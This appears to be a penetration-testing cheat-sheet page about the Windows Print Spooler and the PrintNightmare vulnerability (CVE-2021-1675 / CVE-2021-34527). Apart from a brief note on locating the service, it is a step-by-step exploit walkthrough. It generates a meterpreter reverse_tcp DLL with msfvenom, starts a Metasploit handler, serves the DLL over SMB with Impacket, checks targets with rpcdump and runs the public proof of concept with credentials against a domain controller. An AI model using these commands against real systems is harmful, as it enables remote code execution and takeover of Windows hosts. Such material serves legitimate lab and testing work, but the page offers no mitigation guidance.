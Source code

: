 ```yaml
---
title: Windows Print Spooler Service
desc: A service that is running on each computer that participates in the Print Services system. It may be vulnerable to the PrintNightmare (CVE-2021-1675 / CVE-2021-34527).
tags: [CVE-2021-1675, CVE-2021-34527, Impacket, Metasploit, Print, PrintNightmare, Windows]
alts: []
render_with_liquid: false
---
```


**[The proof of concept](https://github.com/cube0x0/CVE-2021-1675){:target="_blank"}** is available.

## 1. Where is the Print Spooler on Windows

1. **Open Services**

2. **You are able to find the Print Spooler on the Right Pane**

3. **Double-Click on It**

    You can start/stop/pause/resume the Print Spooler in there.

<br />

## 2. Exploit

1. **Clone the Repository**

    ```sh
    git clone https://github.com/cube0x0/CVE-2021-1675
    ```

2. **Download Impacket and Setup**

    ```sh
    git clone https://github.com/cube0x0/impacket
    cd impacket
    python3 setup.py install
    ```

3. **Create the Malicious DLL with Msfvenom**

    ```sh
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<local-ip> LPORT=<local-port> -f dll -o ./malicious.dll
    ```

4. **Start Metasploit and Reverse TCP**

    ```sh
    msfconsole

    msf > use exploit/multi/handler
    msf > set payload windows/x64/meterpreter/reverse_tcp
    msf > set lhost <local-ip>
    msf > set lport <local-port>

    msf > run -j

    # Started reverse tcp

    msf > jobs
    ```

5. **Host the Malicious DLL**

    ```sh
    cd impacket/examples
    python3 smbserver.py <share-name> <share-path> -smb2support
    ```

6. **Examine the Target Fits the Criteria to Exploit It**

    ```sh
    python3 rpcdump.py @<remote-ip> | egrep 'MS-RPRN|MS-PAR'
    # Protocol: [MS-RPRN]: Print System Remote Protocol 
    # Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol
    ```

7. **Run the Exploit**

    ```sh
    cd CVE-2021-1675
    python3 CVE-2021-1675.py Domain.Controller.local/<username>:<password>@<remote-ip> '\\<local-ip>\path\to\malicious.dll'
    ```